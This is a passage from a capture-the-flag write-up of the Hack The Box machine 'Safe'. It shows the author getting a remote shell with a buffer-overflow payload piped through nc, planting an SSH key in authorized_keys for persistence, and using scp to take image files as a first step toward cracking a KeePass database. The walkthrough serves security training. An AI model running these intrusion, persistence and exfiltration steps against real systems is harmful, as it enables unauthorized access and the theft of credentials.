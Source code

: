 Then, we need to pipe the contents of in.txt the program that's running remotely at port 1337.

The extra `cat` bewilders some of us. [There's an explanation here.](https://security.stackexchange.com/questions/155844/using-cat-file-cat-to-run-a-simple-bof-exploit)

```
root@kali:~/htb/safe# (cat in.txt; cat) | nc 10.10.10.147 1337
 21:42:04 up 4 min,  0 users,  load average: 0.03, 0.05, 0.02

whoami
user
cd /home
ls
user
cd user
ls
IMG_0545.JPG
IMG_0546.JPG
IMG_0547.JPG
IMG_0548.JPG
IMG_0552.JPG
IMG_0553.JPG
myapp
MyPasswords.kdbx
user.txt
```
The user flag is there, together with some interesting files we'll need to get root.

### Privilege Escalation

MyPasswords.kdbx stands out.

What is a KDBX file? From [fileext.com](https://filext.com/file-extension/KDBX):

> The KDBX file type is primarily associated with KeePass by Dominik Reichl. KeePass is a free open source password manager, which helps you to manage your passwords in a secure way. You can put all your passwords in one database, which is locked with **one master key or a key file**. So you only have to remember one single master password or select the key file to unlock the whole database.

We want to unlock this database and we need a master key or key file. It's possible that one of the files in the home directory is the key file. So let's exfiltrate the relevant files for a closer look.

#### Exfiltrating files with scp

Let's get SSH access by adding our public key to authorized_keys under the hidden ssh folder.

```
cd .ssh
echo 'ssh-rsa <SNIP>' >> authorized_keys
```
Now, we can use [scp](https://linuxize.com/post/how-to-use-scp-command-to-securely-transfer-files/) to copy the data from remote to our local machine.

```
root@kali:~/htb/safe# scp user@10.10.10.147:~/*.JPG .
IMG_0545.JPG                                                                       100% 1863KB 828.6KB/s   00:02    
IMG_0546.JPG                                                                       100% 1872KB   2.3MB/s   00:00    
IMG_0547.JPG                                                                       100% 2470KB   1.3MB/s   00:01    
IMG_0548.JPG                                                                       100% 2858KB 928.8KB/s   00:03    
IMG_0552.JPG                                                                       100% 1099KB 704.4KB/s   00:01    
IMG_0553.JPG                                                                       100% 1060KB 692.9KB/s   00:01    
```